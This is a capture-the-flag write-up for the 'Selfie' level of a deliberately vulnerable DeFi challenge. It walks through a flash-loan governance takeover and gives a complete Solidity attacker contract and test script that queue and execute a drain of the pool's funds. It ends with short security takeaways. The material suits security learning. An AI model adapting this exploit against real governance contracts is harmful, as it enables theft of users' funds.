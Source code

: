 # Level 6 : Selfie

A governance, something really nice to learn in the decentralized space.. but this one is not fully secure.

Target is clear : we have to drain funds 😊

First thing that should jump on your eyes when reading contracts should be the function `drainAllFunds(address receiver)` , unfortunally it can only be executed by someone from the gouvernance … but we keep this function in mind when reading the other contract.

On the SimpleGovernance contract there is a lot of code useless for our understanding, the only things to note is that to be part of the gouvernance we have to pass the _hasEnoughVotes() function by having more than half of the total supply (maybe using a flashLoan could help for that 😛).

Then when part of the gouv, we can execute action .. interesting. To do that we can use the `queueAction()` function that takes bytes data representing a call to a function to execute after 2 days of patience (but with EVM 2 days is short we learned that on the last challenge ). This function will generate an actionId that can be submit to`executeAction(actionId)`

Here a short recap to hack it : 

1. Flash loan all the DVT available on the pool
2. Trigger a **`snapshot`** on the **`DamnValuableTokenSnapshot`** contract to be part of the gouvernance
3. Call **`queueAction`** on **`SimpleGovernance`** contract to create an action to call **`drainAllFunds`** on the pool
4. Return the DVT we have borrowed from the pool
5. Wait two days and call **`executeAction`** on the Governance contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "../DamnValuableTokenSnapshot.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Snapshot.sol";
import "./SimpleGovernance.sol";
import './SelfiePool.sol';
contract AttackSelfie {
  SimpleGovernance gouv;
  SelfiePool selfiepool;
  DamnValuableTokenSnapshot dvt;
  address immutable owner;
  uint256 actionId;
  constructor(address _gouv,address _selfiepool,address _dvt) {
    gouv=SimpleGovernance(_gouv);
    selfiepool=SelfiePool(_selfiepool);
    dvt=DamnValuableTokenSnapshot(_dvt);
    owner=msg.sender;
  }
  function attack(uint256 amount) public {
    selfiepool.flashLoan(amount); // 1. Flash loan enough dvt to be authorized to queueAction
    // 2. Trigger receiveTokens()
  }
  function receiveTokens(address token,uint256 amount) public {
    require(msg.sender == address(selfiepool));
    dvt.snapshot(); //3. Create a snapshot here of our amount of DVT tokens flashloaned
    actionId = gouv.queueAction( //4. Create Action to drainAllFunds
      address(selfiepool),abi.encodeWithSignature("drainAllFunds(address)",address(owner)),0
    );
    //5. Pay Back FlashLoan
    dvt.transfer(address(selfiepool),amount);
  }
  function drainFunds() external{
    //6. Drain funds after increased time of 2 days by submitting actionId
    gouv.executeAction(actionId);
  }
}
```

```jsx
const Attacker = await ethers.getContractFactory('AttackSelfie', attacker)
this.attackerContract = await Attacker.deploy(this.governance.address,this.pool.address,this.token.address);
await this.attackerContract.connect(attacker).attack(TOKENS_IN_POOL);
await ethers.provider.send("evm_increaseTime",[2*24*60*60]);
await this.attackerContract.connect(attacker).drainFunds();
```

## Key Security Takeaways

- Using public audited contract from OpenZeppelin for Gouvernance can be good
    - [https://blog.openzeppelin.com/governor-smart-contract/](https://blog.openzeppelin.com/governor-smart-contract/)
- On-chain governance is hard, maybe using another contract to drain the funds to a trusted address can help